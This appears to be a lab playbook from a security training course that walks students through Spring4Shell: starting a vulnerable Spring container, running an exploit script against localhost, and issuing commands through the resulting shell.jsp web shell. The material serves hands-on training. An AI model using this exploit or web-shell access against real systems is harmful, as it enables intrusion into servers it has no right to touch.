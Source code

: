 Threat Stack Playbooks
======================

Spring4Shell Playbook
---------------------

First, Access the Linux Ubuntu 20.04 LTS Box via WebShell.

.. image:: _static/UbuntuWebshell.png

Next, navigate to the spring4shell directory by entering the following command:

.. code-block::
   
   cd spring4shell
   
.. image:: _static/CDDirectoryCommand.png


Next, to spin up the vulnerable Spring server, run the following command: 


.. code-block::

   docker run -p 80:8080 spring4shell
   
   
after you run the command, you should see the following screen.

.. image:: _static/Spring4ShellScreen.png


Go back to UDF and open another shell connection the linux host again. Then run the following command

.. code-block::
   
   curl localhost: curl localhost/helloworld/greeting
   
   
The following output should manifest.

.. image:: _static/CurlOutput.png


Now to exploit, run the following command in the spring4shell directory. Navigate to the spring4shell directory by running the following commands.

.. code-block::
   
   cd spring4shell
   python3 exploit.py --url 'http://localhost/helloworld/greeting'
   
The following output should manifest.

.. image:: _static/CurlOutput2.png
   
Now run the following command via shell


.. code-block::
   
   curl http://localhost/shell.jsp?cmd=pwd --output -
   
   
.. note::
   
   Run the --output flag as this is required for the output to display


then run:

.. code-block::

   touch yougotpwndStudentN.txt

.. image:: _static/pwned.png

